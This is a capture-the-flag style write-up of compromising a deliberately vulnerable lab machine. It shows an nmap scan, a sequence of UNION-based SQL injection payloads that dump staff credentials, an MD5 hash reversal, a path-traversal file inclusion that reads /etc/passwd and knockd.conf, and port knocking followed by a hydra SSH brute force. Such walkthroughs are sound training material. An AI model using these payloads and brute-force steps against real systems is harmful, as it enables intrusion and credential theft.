 <details>
  <summary><h1>1. Nmap Scan</h1></summary>

```console
┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.33
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-11 13:42 +08
Nmap scan report for 10.0.88.33
Host is up (0.0019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-title: Example.com - Staff Details - Welcome
|_http-server-header: Apache/2.4.38 (Debian)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=12/11%OT=80%CT=1%CU=30953%PV=Y%DS=2%DC=T%G=Y%TM=63956D
OS:DE%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10B%TI=Z%TS=A)OPS(O1=M5B4S
OS:T11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M
OS:5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=N)T1(R
OS:=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40
OS:%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)

Network Distance: 2 hops

TRACEROUTE (using port 199/tcp)
HOP RTT     ADDRESS
1   0.89 ms 192.168.17.1
2   1.54 ms 10.0.88.33

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.65 seconds
```

</details>

# 2. SQL Injection

URL: `http://<ip-address>/search.php`

<details>
  <summary><h2>1. Identify query vulnerability</h2></summary>

Legitimate input `tom`:

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com
```

</details>

<details>
  <summary><h2>2.Identify injection vector</h2></summary>

Testing `tom'` → `0 results`

Testing `tom' #` → same results as legitimate input → SQL query is susceptible to injection

</details>

<details>
  <summary><h2>3. Identify range</h2></summary>

Query: `tom' ORDER BY 7 #` → `0 results`

`ORDER BY` works until `6` and fails at `7` → data ramge is 6 columns

</details>

<details>
  <summary><h2>4. Identify data display positions</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,5,6 #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: 5
Email: 6
```

</details>

<details>
  <summary><h2>5. Retrieve database/version information</h2></summary>

Query: `tom' UNION SELECT 1,2,3,DATABASE(),VERSION(),TABLE_SCHEMA FROM information_schema.TABLES #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: Staff
Phone No: 10.3.17-MariaDB-0+deb10u1
Email: information_schema

ID: 1
Name: 2 3
Position: Staff
Phone No: 10.3.17-MariaDB-0+deb10u1
Email: Staff

ID: 1
Name: 2 3
Position: Staff
Phone No: 10.3.17-MariaDB-0+deb10u1
Email: users
```

Found 2 databases: `Staff` and `users`

</details>

<details>
  <summary><h2>6. Enumerate tables (from <code>Staff</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='Staff' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: Staff
Email: StaffDetails

ID: 1
Name: 2 3
Position: 4
Phone No: Staff
Email: Users
```

Found 2 tables: `StaffDetails` and `Users`

</details>

<details>
  <summary><h2>7. Enumerate columns (from <code>Staff.Users</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='Staff' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: Users
Email: UserID

ID: 1
Name: 2 3
Position: 4
Phone No: Users
Email: Username

ID: 1
Name: 2 3
Position: 4
Phone No: Users
Email: Password
```

</details>

<details>
  <summary><h2>8. Retrieve data (from <code>Staff.Users</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,UserID,Username,Password FROM Users #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 1
Phone No: admin
Email: 856f5de590ef37314e7c3bdf6f8a66dc
```

</details>

<details>
  <summary><h2>6-Again. Enumerate tables (from <code>users</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='users' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: users
Email: UserDetails
```

</details>

<details>
  <summary><h2>7-Again. Enumerate columns (from <code>users.UserDetails</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_NAME,COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='users' AND TABLE_NAME='UserDetails' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: id

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: firstname

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: lastname

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: username

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: password

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: reg_date
```

</details>

<details>
  <summary><h2>8-Again. Retrieve data (from <code>users.UserDetails</code>)</h2></summary>

Query: `tom' UNION SELECT id,firstname,lastname,username,password,reg_date FROM users.UserDetails #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: Mary Moe
Position: marym
Phone No: 3kfs86sfd
Email: 2019-12-29 16:58:26

ID: 2
Name: Julie Dooley
Position: julied
Phone No: 468sfdfsd2
Email: 2019-12-29 16:58:26

ID: 3
Name: Fred Flintstone
Position: fredf
Phone No: 4sfd87sfd1
Email: 2019-12-29 16:58:26

ID: 4
Name: Barney Rubble
Position: barneyr
Phone No: RocksOff
Email: 2019-12-29 16:58:26

ID: 5
Name: Tom Cat
Position: tomc
Phone No: TC&TheBoyz
Email: 2019-12-29 16:58:26

ID: 6
Name: Jerry Mouse
Position: jerrym
Phone No: B8m#48sd
Email: 2019-12-29 16:58:26

ID: 7
Name: Wilma Flintstone
Position: wilmaf
Phone No: Pebbles
Email: 2019-12-29 16:58:26

ID: 8
Name: Betty Rubble
Position: bettyr
Phone No: BamBam01
Email: 2019-12-29 16:58:26

ID: 9
Name: Chandler Bing
Position: chandlerb
Phone No: UrAG0D!
Email: 2019-12-29 16:58:26

ID: 10
Name: Joey Tribbiani
Position: joeyt
Phone No: Passw0rd
Email: 2019-12-29 16:58:26

ID: 11
Name: Rachel Green
Position: rachelg
Phone No: yN72#dsd
Email: 2019-12-29 16:58:26

ID: 12
Name: Ross Geller
Position: rossg
Phone No: ILoveRachel
Email: 2019-12-29 16:58:26

ID: 13
Name: Monica Geller
Position: monicag
Phone No: 3248dsds7s
Email: 2019-12-29 16:58:26

ID: 14
Name: Phoebe Buffay
Position: phoebeb
Phone No: smellycats
Email: 2019-12-29 16:58:26

ID: 15
Name: Scooter McScoots
Position: scoots
Phone No: YR3BVxxxw87
Email: 2019-12-29 16:58:26

ID: 16
Name: Donald Trump
Position: janitor
Phone No: Ilovepeepee
Email: 2019-12-29 16:58:26

ID: 17
Name: Scott Morrison
Position: janitor2
Phone No: Hawaii-Five-0
Email: 2019-12-29 16:58:28
```

</details>

# 3. Getting a login to `/manage.php`

A credential was retrieved from the from `Staff.Users` table

Username: `admin`

Password: `856f5de590ef37314e7c3bdf6f8a66dc`

Attempts to crack the password hash fails because the password doesn't match even the `rockyou` wordlist

☝️ hashcat is not always the answer for cracking hashes

Thankfully, md5 is easily reversible, Googling returns several online md5 hash reversers

Trying the one at <https://md5.gromweb.com/> reveals that the password is: `transorbital1`

Logging in with the credentials reveals a curious `File does not exist` error at the page footer:

![image](https://user-images.githubusercontent.com/90442032/206894411-31c7f1ce-c8f4-4528-8806-bc28ef262255.png)

This suggests that the page is susceptible to some form of file inclusion

# 4. Finding the file inclusion vulnerability

Without knowing where the DocumentRoot of the target machine is at, the next step is to identify the path traversal for the file inclusion

Since this is a linux box, the `/etc/passwd` file should exist

`../` can be appended to the URL until the `/etc/passwd` file is returned

The path is ultimately found at: `http://<ip-address>/manage.php?file=../../../../etc/passwd`

![image](https://user-images.githubusercontent.com/90442032/207045621-c684edb5-f57e-45ef-9517-0bfb614c1bd6.png)

☝️ Perform repetitive tasks by capturing the request in **Burp Suite** and **Send to Repeater **

# 5. Finding the knockd.conf

Now that we gained the ability to read files on the target, the next question is what to read?

The OSCP official guide points towards [Apache Log Poisoning through LFI](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/) method to get code execution capabilities, but this doesn't seem to work here

Taking a step back, we have a list of usernames and passwords from the SQL injection that correlates to the usernames in `/etc/passwd`

But the SSH port is `filtered` → this points towarods the existence of a firewall rule that block this port

But every server needs a method of administration, how would administration be done if SSH is blocked? → this points towarods the existence of [port-knock server](https://manpages.debian.org/bullseye/knockd/knockd.1.en.html)

Let's check for the default knockd configuration file at `/etc/knockd.conf`

![image](https://user-images.githubusercontent.com/90442032/207047786-a7bb3104-1d3a-4140-9a2b-5ba0bf41c227.png)

Bingo! The port knock sequence is `7469 8475 9842`

# 6. Looking for SSH login

Store the lists of usernames and passwords in `usernames.txt` and `passwords.txt` respectively

The combined use of `knock` and `hydra` found 3 functional logins to SSH

```console
┌──(root㉿kali)-[~]
└─# knock 10.0.88.33 7469 8475 9842

┌──(root㉿kali)-[~]
└─# hydra -L users.txt -P passwords.txt ssh://10.0.88.33 -V -t 10
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-12 20:14:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 289 login tries (l:17/p:17), ~29 tries per task
[DATA] attacking ssh://10.0.88.33:22/
⋮
[22][ssh] host: 10.0.88.33   login: chandlerb   password: UrAG0D!
⋮
[22][ssh] host: 10.0.88.33   login: joeyt   password: Passw0rd
⋮
[22][ssh] host: 10.0.88.33   login: janitor   password: Ilovepeepee
⋮
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-12 20:15:43
```
